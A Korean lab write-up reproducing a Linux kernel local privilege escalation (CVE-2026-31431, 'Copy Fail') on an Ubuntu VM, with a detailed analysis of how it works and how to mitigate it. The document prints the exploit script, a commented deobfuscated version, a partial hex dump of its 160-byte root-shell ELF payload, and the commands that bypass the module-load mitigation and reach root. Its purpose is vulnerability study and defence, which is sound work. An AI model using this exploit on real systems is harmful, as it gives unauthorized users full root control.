The authenticity of host '[127.0.0.1]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is SHA256:CQgB57fJwbrtJtPggo4RoDq9Nmj2Ja58oLmg7ijkQzc.
Are you sure you want to continue connecting (yes/no/[fingerprint])?

오래된 커널 패키지를 설치하면 6.8.0-111과 6.8.0-149가 함께 존재하게 된다. GRUB에서 6.8.0-111-generic을 선택해 부팅한 뒤 버전을 확인했다.
user@CVE-2026-31431:~/copyfail-kernel$ dpkg -l | grep 'linux-image-6.8.0'
ii linux-image-6.8.0-111-generic 6.8.0-111.111 amd64 Signed kernel image generic
ii linux-image-6.8.0-149-generic 6.8.0-149.149 amd64 Signed kernel image generic
user@CVE-2026-31431:~$ uname -r
6.8.0-111-generic

취약한 커널로 부팅한 뒤, algif_aead의 적재 상태를 확인했다. 이 실습 이미지에는 완화책이 미리 적용되어 있었다. modprobe -n -v(실제 적재 없이 동작만 출력)로 보면, 모듈을 올리려 할 때 install /bin/false가 실행되도록 재정의되어 있다. 곧 install algif_aead /bin/false 류의 modprobe 설정으로 자동 적재가 막혀 있는 상태다.
user@CVE-2026-31431:~$ uname -r
6.8.0-111-generic
user@CVE-2026-31431:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
user@CVE-2026-31431:~$ ls -l /usr/bin/su
-rwsr-xr-x 1 root root 55680 Aug 19 16:47 /usr/bin/su
user@CVE-2026-31431:~$ dpkg-query -W kmod
kmod 31+20240202-2ubuntu7.2
user@CVE-2026-31431:~$ modprobe -n -v algif_aead
insmod /lib/modules/6.8.0-111-generic/kernel/crypto/af_alg.ko.zst
install /bin/false

modprobe -n -v로 확인한 적재 차단 완화책(install /bin/false)이 상태에서는 일반 사용자가 AF_ALG 소켓을 열어도 모듈이 자동 적재되지 않는다. 취약점 자체를 재현하려면 모듈이 메모리에 올라와 있어야 하므로, 완화책을 우회해 수동으로 적재했다. --ignore-install은 modprobe의 install 재정의를 무시하고 모듈을 직접 올린다(이 명령 자체는 root 권한이 필요하다).
user@CVE-2026-31431:~$ lsmod | grep '^algif_aead' || echo "Module not loaded"
Module not loaded
user@CVE-2026-31431:~$ sudo modprobe --ignore-install algif_aead
user@CVE-2026-31431:~$ lsmod | grep '^algif_aead'
algif_aead 12288 0

--ignore-install) algif_aead를 적재한 상태이 수동 적재 단계는 중요한 전제를 드러낸다. 실습 이미지는 완화책이 적용되어 있어, 완화책을 걷어내기 전에는 일반 사용자가 모듈을 올릴 수 없었다. 즉 모듈이 기본값으로 적재 가능한 환경이라야 진정한 비권한 LPE가 성립한다. 뒤의 PoC 실행은 어디까지나 algif_aead가 올라온 상태에서 UID 1000이 root가 되는 과정이며, 모듈 적재 자체는 완화책 유무에 따라 갈린다(§7.2).
PoC 확보 과정에서 사소한 시행착오가 있었다. 처음에는 wget으로 raw URL을 직접 받으려 했는데, 호스트명을 raw.githubusercontect.com으로 잘못 입력(정상은 raw.githubusercontent.com)해 1040바이트짜리 HTML 오류 페이지를 받았다. 그대로 컴파일하니 <!DOCTYPE html>에서 문법 오류가 났다.
user@CVE-2026-31431:~$ wget https://raw.githubusercontect.com/theori-io/copy-fail-CVE-2026-31431/main/copy_fail_exp.py
...
Length: 1040 (1.0K) [text/html]
Saving to: 'copy_fail_exp.py'
user@CVE-2026-31431:~$ python3 -m py_compile copy_fail_exp.py
File "copy_fail_exp.py", line 1
<!DOCTYPE html>
^
SyntaxError: invalid syntax

저장소를 직접 클론하니 올바른 732바이트 스크립트를 얻었다. wc -c로 크기를, head로 첫 줄을 확인하고 py_compile로 구문이 정상임을 검증했다.
user@CVE-2026-31431:~$ git clone https://github.com/theori-io/copy-fail-CVE-2026-31431.git
Cloning into 'copy-fail-CVE-2026-31431'...
user@CVE-2026-31431:~/copy-fail-CVE-2026-31431$ wc -c copy_fail_exp.py
732 copy_fail_exp.py
user@CVE-2026-31431:~/copy-fail-CVE-2026-31431$ head -n 3 copy_fail_exp.py
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
user@CVE-2026-31431:~/copy-fail-CVE-2026-31431$ python3 -m py_compile copy_fail_exp.py

git clone으로 받은 732바이트 PoC와 구문 검증5.3 PoC 소스코드 분석
원본 copy_fail_exp.py는 변수·함수명을 한두 글자로 줄이고 세미콜론으로 한 줄에 몰아 쓴 난독화 스타일이다. 실제 파일 내용은 다음과 같다.

cat으로 출력한 난독화된 PoC 원본구조를 그대로 보존한 원본은 이렇다.
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
try:u.recv(8+t)
except:0
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f5716362646480..."))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("su")
파이썬의 ast 모듈로 역난독화(unparse)하면 흐름이 선명해진다.
user@CVE-2026-31431:~/copy-fail-CVE-2026-31431$ python3 -c 'import ast,pathlib; print(ast.unparse(ast.parse(pathlib.Path("copy_fail_exp.py").read_text())))'

ast.unparse로 가독성을 복원한 PoC가독성을 높인 해설용 버전은 다음과 같다. 변수명을 원본과 1:1로 대응시키되 의미를 드러내도록 풀었다.
import os as g, zlib
import socket as s
def d(x):
return bytes.fromhex(x)
def c(f, t, chunk): # f: 대상 파일 fd, t: 파일 오프셋, chunk: 심을 4바이트
a = s.socket(38, 5, 0) # socket(AF_ALG=38, SOCK_SEQPACKET=5, 0)
a.bind(("aead", "authencesn(hmac(sha256),cbc(aes))"))
h = 279 # SOL_ALG
v = a.setsockopt
v(h, 1, d('0800010000000010' + '0' * 64)) # ALG_SET_KEY(1): enckeylen=16인 authenc 키
v(h, 5, None, 4) # ALG_SET_AEAD_AUTHSIZE(5): 태그 크기 4바이트
u, _ = a.accept()
o = t + 4 # splice로 넘길 길이(= 대상 오프셋 + 4)
i = d('00') # 0x00 한 바이트
u.sendmsg(
[b"A" * 4 + chunk], # 평문 버퍼: 더미 4바이트 + 심을 4바이트
[
(h, 3, i * 4), # ALG_SET_OP(3): 0 = 복호화(DECRYPT)
(h, 2, b'\x10' + i * 19), # ALG_SET_IV(2): ivlen=0x10, iv=16바이트
(h, 4, b'\x08' + i * 3), # ALG_SET_AEAD_ASSOCLEN(4): assoclen=8
],
32768, # MSG_MORE: 뒤이을 splice 데이터를 기다림
)
r, w = g.pipe()
n = g.splice
n(f, w, o, offset_src=0) # 파일[0:o] → 파이프 (페이지 캐시 참조 전달)
n(r, u.fileno(), o) # 파이프 → AF_ALG 소켓 (TX 스캐터리스트에 연결)
try:
u.recv(8 + t) # 복호화 유발: 이 시점에 페이지 캐시에 4바이트가 쓰임
except:
pass # HMAC 검증은 실패하지만 쓰기는 이미 끝남
f = g.open("/usr/bin/su", 0) # O_RDONLY로 SUID 바이너리 열기
e = zlib.decompress(d("78daab77f5716362646480...")) # 압축 해제 → 160바이트 ELF
i = 0
while i < len(e): # 4바이트씩 40회
c(f, i, e[i:i + 4])
i += 4
g.system("su") # 변조된 su 실행 → root 셸
개별 요소의 의미는 다음과 같다.
s.socket(38, 5, 0)—AF_ALG(38)·SOCK_SEQPACKET(5) 소켓. 일반 사용자가 커널 Crypto API에 접근하는 입구다.a.bind(("aead", "authencesn(hmac(sha256),cbc(aes))"))— 취약한authencesnAEAD 조합을 선택한다. ESN 처리가 바로 4바이트 임시 쓰기의 출처다.v(h, 1, d('0800010000000010' + '0'*64))—ALG_SET_KEY. 앞 8바이트는authenc키 파라미터(rtattr헤더 +enckeylen=16), 뒤 32바이트는 HMAC·AES 키 재료다. 연산을 "성립"시키기 위한 최소한의 유효 키일 뿐, 비밀성에 의미는 없다.v(h, 5, None, 4)—ALG_SET_AEAD_AUTHSIZE. 태그 길이를 4바이트로 지정한다.o = t + 4,offset_src=0—splice()로 파일의 앞에서부터t+4바이트를 넘긴다. 이 길이가assoclen + cryptlen위치를 조절해, authencesn의 쓰기가 파일 오프셋t에 떨어지게 만든다.sendmsg([...], [(h,3,…),(h,2,…),(h,4,…)], 32768)— 제어 메시지로 연산 종류(복호화)·IV·AAD 길이를 지정하고,MSG_MORE(32768)로 뒤이을splice데이터를 기다리게 한다. 평문 버퍼b"A"*4 + chunk의 뒤쪽 4바이트가 실제로 페이지 캐시에 박힐 값이다.g.pipe()/g.splice— 파이프를 거쳐 파일의 페이지 캐시 페이지를 소켓의 TX 스캐터리스트로 복사 없이 전달한다.u.recv(8 + t)— 복호화를 실제로 구동한다. 이 과정에서 4바이트가 기록된다. HMAC 검증 실패로 예외가 나지만except:로 무시한다. 쓰기는 검증 전에 끝났기 때문이다.g.open("/usr/bin/su", 0)— 대상을 읽기 전용(O_RDONLY=0)으로 연다. 쓰기 권한이 없다는 점이 이 취약점의 핵심이다.while i < len(e): c(f, i, e[i:i+4]); i += 4— 페이로드를 4바이트 단위로 끊어 오프셋을 옮겨 가며 심는다.g.system("su")— 페이지 캐시가 교체된su를 실행해 root 셸을 얻는다.
5.4 페이로드 분석
페이로드는 90바이트 zlib 스트림으로 코드에 박혀 있고, zlib.decompress()로 풀면 정확히 160바이트 ELF가 나온다. 재현 중 이 값을 직접 복원해 확인했다.
$ python3 -c "import zlib,binascii;d=zlib.decompress(binascii.unhexlify('78daab77f5716362646480...'));print(len(d),d[:4],d.hex())"
160 b'\x7fELF' 7f454c4602010100...31c031ffb0690f05488d3d0f00000031f66a3b58990f0531ff6a3c580f052f62696e2f736800
구조는 극단적으로 작은 정적 x86-64 실행 파일이다.
- ELF 헤더(64바이트) + 프로그램 헤더 1개(56바이트): 자기 자신을
0x400000에 R+X로 매핑하는 단일PT_LOAD세그먼트. 진입점은0x400078. - 코드(오프셋 120~):
setuid(0)→execve("/bin/sh", NULL, NULL)→exit(0). 끝에"/bin/sh\0"문자열.
e_machine은 0x3e(x86-64), p_flags는 5(R+X)로, 섹션 헤더나 라이브러리 없이 로더가 곧장 실행할 수 있는 최소 형태다. 이 160바이트가 su의 페이지 캐시 앞부분을 덮으면, su 실행 시 커널은 원래의 su 코드 대신 이 ELF를 매핑해 실행한다.
페이로드를 4바이트씩 40회에 나누어 처리하는 이유는 파이썬 반복문의 사정이 아니라 커널 쪽 프리미티브의 한계 때문이다. crypto_authenc_esn_decrypt()가 범위 밖에 쓰는 양은 seqno_lo 한 조각, 곧 4바이트로 고정되어 있다. 한 번의 AF_ALG 요청으로 심을 수 있는 값이 4바이트뿐이므로, 160바이트 ELF를 완성하려면 오프셋을 4씩 늘리며 40번 요청해야 한다. PoC의 while 루프와 o = t + 4는 이 커널 제약을 사용자 공간에서 맞춰 주는 장치일 뿐이다.
5.5 실행 결과
모듈이 적재된 취약 커널(6.8.0-111-generic)에서 PoC를 실행했다. 실행 직전 계정은 UID 1000이다.
user@CVE-2026-31431:~/copy-fail-CVE-2026-31431$ id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
user@CVE-2026-31431:~/copy-fail-CVE-2026-31431$ python3 copy_fail_exp.py
# whoami
root
# id
uid=0(root) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
#

copy_fail_exp.py 실행 후 whoami가 root, uid=0(root)로 상승프롬프트가 $에서 #로 바뀌고 whoami가 root, id가 uid=0(root)를 반환했다. 이 실습 환경에서 일반 사용자 계정이 공식 PoC만으로 root 권한을 얻는 로컬 권한 상승이 성립했다. §4.4에서 설명한 대로 gid는 1000(user)로 유지되는데, 페이로드가 setuid(0)만 수행하고 그룹을 전환하지 않기 때문이다. 디스크의 /usr/bin/su는 변경되지 않았고, 변조는 메모리상 페이지 캐시에만 일어났다.
6. 영향 및 위험도 분석
6.1 공격 성공 시 영향
일반 사용자가 root로 상승하면 시스템의 기밀성·무결성·가용성이 모두 완전히 무너진다. 공격 프리미티브 자체가 "읽기 전용 파일의 페이지 캐시를 임의로 변조"하는 것이므로, SUID 바이너리를 통한 권한 상승 외에도 메모리에 올라온 코드·설정의 실행 시점 변조로 이어질 수 있다. 다만 변조는 페이지 캐시(메모리)에 한정되고 디스크 원본은 그대로이므로, 재부팅하거나 해당 페이지가 캐시에서 회수되면 원복된다. 역설적으로 이 점이 포렌식을 어렵게 만든다. 디스크 기반 무결성 검사는 멀쩡한 원본만 보게 된다.
6.2 보안 위험
경계가 커널로 그어지는 환경일수록 파급이 크다.
- 다중 사용자 리눅스 서버: 한 명의 일반 계정이 전체 호스트를 장악한다.
- 클라우드 인스턴스:
6.17.0-1007-aws등 클라우드 커널이 테스트 매트릭스에 오른 만큼, 비권한 사용자 코드 실행이 가능한 인스턴스에서 직접적 위협이다. - 컨테이너·공유 커널: 컨테이너는 커널을 호스트와 공유한다. 컨테이너 내부에서
AF_ALG가 허용되어 있다면 호스트 커널의 이 버그를 건드릴 수 있어, 컨테이너 탈출의 발판이 될 수 있다(연구팀은 별도의 pod-to-host 분석을 공개했다). - CI/CD 러너: 신뢰 경계가 약한 빌드 러너에서 임의 코드가 돌 수 있다면 러너 호스트 전체가 위험해진다.
여기서 "확인된 사실"과 "가능한 파급"을 구분할 필요가 있다. 이 글에서 직접 검증한 것은 격리된 VirtualBox 단일 사용자 환경에서의 LPE 재현뿐이다. 컨테이너 탈출이나 클라우드 다중 테넌시 영향은 취약점의 성격상 "발생 가능한" 범주이며, 연구팀 자료에 근거한 서술이다.
6.3 심각도 평가
공개 자료 기준 CVSS v3.1 7.8 (High). 벡터는 AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H로 해석된다. 로컬 접근이 필요해 원격 대량 공격은 아니지만(AV:L), 공격 복잡도가 낮고(AC:L) 특별한 권한이나 사용자 상호작용이 필요 없으며(PR:L/UI:N), 성공 시 기밀성·무결성·가용성이 모두 완전 침해된다(C:H/I:H/A:H). 익스플로잇이 안정적이고(메모리 손상·레이스 없음) 공개 PoC가 존재하며 KEV에 등재된 점을 함께 고려하면, 로컬 권한 상승 계열에서 실질적 위험도가 높은 축에 속한다.
7. 대응 및 완화
7.1 커널 보안 패치
근본 해결은 공식 수정 커밋 a664bf3d603d가 반영된 커널로 올리는 것이다. 이 커밋은 메인라인에 2026년 4월 병합되었고, 각 배포판은 자신의 지원 커널에 백포트해 보안 업데이트로 배포했다. 이번 실습에서 더 최신 빌드인 6.8.0-149-generic 대신 구버전 6.8.0-111-generic으로 내려야 했던 것도, 현재 커널에는 이 백포트가 이미 반영되어 있는 것으로 판단했기 때문이다. 운영 환경에서는 배포판의 커널 패키지를 최신 보안 업데이트로 갱신하고 재부팅하면 된다.
7.2 임시 완화책
패치를 즉시 적용하기 어렵다면, 취약한 algif_aead 모듈의 적재를 막는다. Theori가 권고한 방식은 다음과 같다.
# echo "install algif_aead /bin/false" > /etc/modprobe.d/disable-algif-aead.conf
# rmmod algif_aead
여기서 적재를 막는 것과 이미 적재된 모듈을 내리는 것을 구분해야 한다. install algif_aead /bin/false는 앞으로의 자동 적재만 차단할 뿐, 지금 메모리에 올라와 있는 모듈에는 영향이 없다. 이미 적재된 상태라면 rmmod algif_aead로 내려야 한다(해당 모듈을 사용하는 소켓이 없어야 한다). 이번 실습의 그림 9~10이 이 차이를 그대로 보여준다. 이미지에는 install /bin/false 재정의가 걸려 있어 일반 적재가 막혔지만, 그것만으로는 모듈 자체가 제거되지는 않았고, modprobe --ignore-install로 재정의를 우회해 수동 적재가 가능했다. 바꿔 말하면, 완화책은 "비권한 사용자가 소켓 생성만으로 모듈을 자동 적재하는 경로"를 끊는 데 의미가 있으며, 이미 적재되어 있거나 다른 경로로 올릴 수 있다면 보호가 되지 않는다.
algif_aead를 막아도 dm-crypt/LUKS, kTLS, IPsec/XFRM, OpenSSL·GnuTLS·NSS의 기본 동작, SSH에는 영향이 없다. 다만 OpenSSL의 afalg 엔진을 명시적으로 쓰는 경우에는 영향을 받을 수 있다. 신뢰할 수 없는 워크로드에는 seccomp로 AF_ALG 소켓 생성 자체를 금지하는 편이 더 확실하다.
7.3 근본적 해결 방향
- 입력·출력 버퍼 분리. 공식 패치의 요지 그대로, AEAD 연산의
src와dst를 서로 다른 메모리로 둔다. 남의 읽기 전용 페이지가 쓰기 대상에 섞이지 않게 하는 것이 핵심이다. - 취약한 in-place 최적화 제거. 미미한 복사 절감을 위해 신뢰 경계가 다른 버퍼를 공유하지 않는다. 성능 이점이 없는 공유라면 애초에 두지 않는다.
- 패치된 커널 운영. 배포판 보안 업데이트를 적용하고 재부팅한다.
- 실습 환경 정리. 재현 뒤에는 VM 스냅샷을 복원하거나 재부팅해 변조된 페이지 캐시를 비운다. 디스크 원본은 바뀌지 않았어도, 메모리상 변조 상태를 다음 실험에 끌고 가지 않도록 한다.
8. 결론 및 참고자료
8.1 요약
Copy Fail은 암호 기능과 파일 캐시라는, 언뜻 무관해 보이는 두 서브시스템이 만나는 지점에서 터졌다. algif_aead가 2017년 도입한 in-place 최적화는 성능을 위해 암호 연산의 입력과 출력을 같은 스캐터리스트로 묶었고, splice()는 읽기 전용 파일의 페이지 캐시 페이지를 복사 없이 그 스캐터리스트에 올려놓았다. 그 결과 읽기만 해야 할 페이지가 쓰기 대상이 되었고, authencesn이 ESN 처리를 위해 수행하는 4바이트 임시 쓰기가 정상 출력 범위를 벗어나 파일의 캐시된 사본에 떨어졌다. 인증 실패는 이 쓰기를 되돌리지 못한다.
이 프리미티브를 4바이트씩 반복하면 SUID root 바이너리 /usr/bin/su의 메모리 이미지를 160바이트 ELF로 교체할 수 있고, 그 su를 실행해 root 셸을 얻는다. 직접 구성한 VirtualBox Ubuntu 24.04.1 LTS(패치 이전 커널 6.8.0-111-generic) 환경에서, UID 1000의 일반 계정이 공식 copy_fail_exp.py만으로 uid=0(root)에 도달하는 것을 확인했다. GID가 사용자 그룹으로 남은 것까지 페이로드의 setuid(0) 동작과 정확히 일치했다.
교훈은 버퍼 관리가 곧 권한 경계라는 점이다. 각 계층이 저마다 타당하게 동작하더라도, 신뢰 수준이 다른 메모리를 하나로 합치는 순간 경계가 무너진다. 공식 패치가 결국 입력과 출력을 다시 떼어 놓는 것으로 끝난 이유도 여기에 있다.
8.2 참고자료
- Copy Fail 공식 페이지 — https://copy.fail/
- Theori/Xint 코드 분석(Juno Im) — https://xint.io/blog/copy-fail-linux-distributions
- Theori 공식 PoC 저장소 — https://github.com/theori-io/copy-fail-CVE-2026-31431
- 공식 PoC 소스
copy_fail_exp.py— https://github.com/theori-io/copy-fail-CVE-2026-31431/blob/main/copy_fail_exp.py - 수정 커밋
a664bf3d603d— https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5 - 2017년 in-place 최적화 커밋
72548b093ee3— https://github.com/torvalds/linux/commit/72548b093ee3 - NVD — https://nvd.nist.gov/vuln/detail/CVE-2026-31431
- Dreamhack/Theori 한국어 해설 — https://theori.io/ko/blog/copy-fail-page-cache
이 글의 코드·로그는 공개 PoC와 실습 중 캡처한 터미널 출력을 텍스트로 복원한 것이다. 페이로드의 zlib 해시 문자열은 지면상 중략 표기했으며, 전체 값은 공식 저장소의
copy_fail_exp.py에서 확인할 수 있다.